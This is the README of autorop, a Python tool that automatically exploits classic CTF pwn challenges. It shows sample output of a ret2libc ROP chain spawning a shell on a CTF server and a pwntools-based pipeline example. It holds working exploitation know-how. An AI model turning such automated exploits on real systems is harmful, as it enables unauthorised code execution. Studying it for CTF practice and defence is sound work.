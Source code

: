 autorop
=======

|Test status| |MIT license|

Automated solver of classic CTF pwn challenges, with flexibility in mind.

Disclaimer
----------

Do not use this software for illegal purposes. This software is intended to be used in legal Capture the Flag competitions only.

Command line
------------

.. code-block:: text

    $ python -m autorop.autorop
    Usage: autorop BINARY [HOST IP]

.. code-block:: text

    $ python -m autorop.autorop tests/bamboofox/ret2libc bamboofox.cs.nctu.edu.tw 11002
    [+] Opening connection to bamboofox.cs.nctu.edu.tw on port 11002: Done
    [*] '/data/Projects/autorop/tests/bamboofox/ret2libc'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [*] Pipeline [1/4]: corefile
    ...
    [*] Pipeline [4/4]: system_binsh
    [*] Loaded 151 cached gadgets for '.autorop.libc'
    [*] 0x0000:       0xf7e09e70 system(0xf7f29fcc)
        0x0004:       0xf7df7bfa <adjust @0xc> add esp, 4; ret
        0x0008:       0xf7f29fcc arg0
        0x000c:        0x80484ed main()
    [*] Switching to interactive mode
    Hello!
    The address of "/bin/sh" is 0x804a02c
    The address of function "puts" is 0xf7e2eda0
    $ wc -c /home/ctf/flag
    57 /home/ctf/flag


API
---

Importing autorop automatically does a ``from pwn import *``, so you can use all of `pwntools' goodies <https://docs.pwntools.com/en/latest/>`_.

Central to autorop's design is the `pipeline <https://en.wikipedia.org/wiki/Pipeline_(software)>`_. Most functions take in a ``PwnState``, mutate it, and pass it on to the next function. This allows great simplicity and flexibility.

See how the below example neatly manages to "downgrade" the problem from something unique, to something generic that the ``classic_printf`` pipeline can handle.

.. code-block:: python

    from autorop import *

    BIN = "./tests/tjctf_2020/stop"


    def send_letter_first(t, data):
        # the binary expects us to choose a letter first, before it takes input unsafely
        t.sendline("A")
        # avoid messing up output by cleaning it of whatever "A" did
        t.clean(constants.CLEAN_TIME)
        # send actual payload
        t.sendline(data)
        # clean output so generic output gets out of the way
        t.recvuntil(b"Sorry, we don't have that category yet\n")


    # in this case a function is overkill,
    # but demonstrates the flexibility of custom pipelines
    def set_overwriter(state):
        state.overwriter = send_letter_first
        return state


    # create a starting state
    s = PwnState(BIN, process(BIN))

    # build a custom pipeline, connecting it to the classic_printf pipeline
    result = pipeline(s, set_overwriter, turnkey.classic_printf)

    # switch to interactive shell which we got via the exploit
    result.target.interactive()

.. |Test status| image:: https://github.com/mariuszskon/autorop/workflows/autorop%20test/badge.svg
    :target: https://github.com/mariuszskon/autorop/actions?query=workflow%3A%22autorop+test%22

.. |MIT license| image:: https://img.shields.io/badge/license-MIT-blue.svg
    :target: https://github.com/mariuszskon/autorop/blob/master/LICENSE
